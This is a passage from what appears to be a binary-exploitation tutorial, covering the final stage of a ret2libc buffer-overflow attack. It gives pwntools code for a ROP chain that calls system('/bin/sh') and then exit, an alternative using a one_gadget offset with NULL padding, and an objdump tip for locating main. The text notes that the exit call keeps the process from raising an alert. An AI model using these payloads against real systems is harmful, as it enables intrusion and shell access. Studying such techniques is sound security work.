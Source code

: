 Finally, the /bin/sh execution exploit is going to be prepared sent:

```python
rop2 = OFFSET + p64(POP_RDI) + p64(BINSH) + p64(SYSTEM) + p64(EXIT)

p.clean()
p.sendline(rop2)

##### Interact with the shell #####
p.interactive() #Interact with the conenction
```

Let's explain this final ROP.  
The last ROP \(`rop1`\) ended calling again the main function, then we can **exploit again** the **overflow** \(that's why the `OFFSET` is here again\). Then, we want to call `POP_RDI` pointing to the **addres** of _"/bin/sh"_ \(`BINSH`\) and call **system** function \(`SYSTEM`\) because the address of _"/bin/sh"_ will be passed as a parameter.  
Finally, the **address of exit function** is **called** so the process **exists nicely** and any alert is generated.

**This way the exploit will execute a** _**/bin/sh**_ **shell.**

![](../../.gitbook/assets/image%20%28255%29.png)

## 4\(2\)- Using ONE\_GADGET

You could also use [ONE\_GADGET ](https://github.com/david942j/one_gadget)to obtain a shell instead of using **system** and **"/bin/sh". ONE\_GADGET** will find inside the libc library some way to obtain a shell using just one **ROP**.  
However, normally there are some constrains, the most common ones and easy to avoid are like `[rsp+0x30] == NULL` As you control the values inside the **RSP** you just have to send some more NULL values so the constrain is avoided.

```python
ONE_GADGET = libc.address + 0x4526a
rop2 = base + p64(ONE_GADGET) + "\x00"*100
```

## EXPLOIT FILE

You can find a template to exploit this vulnerability here:

{% page-ref page="rop-pwn-template.md" %}

## Common problems

### MAIN\_PLT = elf.symbols\['main'\] not found

If the "main" symbol does not exist. Then you can just where is the main code:

```python
objdump -d vuln_binary | grep "\.text"
Disassembly of section .text:
0000000000401080 <.text>:
```
